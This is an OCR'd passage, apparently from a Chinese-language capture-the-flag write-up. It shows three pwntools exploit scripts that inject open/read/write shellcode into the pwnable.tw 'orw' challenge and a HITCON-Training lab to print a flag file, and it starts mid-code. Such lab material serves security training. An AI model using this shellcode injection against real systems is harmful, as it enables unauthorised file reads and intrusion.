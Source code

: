 ```

mov eax, 0x04
mov ebx, 1
mov ecx, esp
mov edx, 0x30
int 0x80
'''

shellcode = asm(shellcode)
p.recvuntil(":")
p.send(shellcode)

raw_input()
p.send("/home/orw/flag")
p.interactive()
```

exp2:

HITCON-Training:

```
shellcode = sc.pushstr("/home/m4x/HITCON-Training/LAB/lab2/testFlag")
shellcode += sc.open("esp")
#  open返回的文件文件描述符存贮在eax寄存器里 
shellcode += sc.read("eax", "esp", 0x100)
#  open读取的内容放在栈顶 
shellcode += sc.write(1, "esp", 0x100)
```



```
#-*- coding:utf8
from pwn import *

# context.log_level = 'debug'
context(arch='i386', os='linux')

io = remote("chall.pwnable.tw", 10001)
io.recvuntil("shellcode:")
shellcode = ''
shellcode += shellcraft.open("/home/orw/flag")
shellcode += shellcraft.read("eax", "esp", 100) 
shellcode += shellcraft.write(1, 'esp', 100)
io.send(asm(shellcode))
print io.interactive()
```

exp3:

```
#coding:utf-8
from pwn  import *

file_name="./orw"
context(log_level = 'debug', arch = 'i386', os = 'linux')
#p=process(file_name)#本地
p=remote('chall.pwnable.tw',10001)#远程
#shellcode=asm(shellcraft.sh())
shellcode=""
shellcode += asm('xor ecx,ecx;mov eax,0x5; push ecx;push 0x67616c66; push 0x2f77726f; push 0x2f656d6f; push 0x682f2f2f; mov ebx,esp;xor edx,edx;int 0x80;')
#open(file,0,0)
shellcode += asm('mov eax,0x3;mov ecx,ebx;mov ebx,0x3;mov dl,0x30;int 0x80;')
#read(3,file,0x30)
shellcode += asm('mov eax,0x4;mov bl,0x1;int 0x80;')
#write(1,file,0x30)
```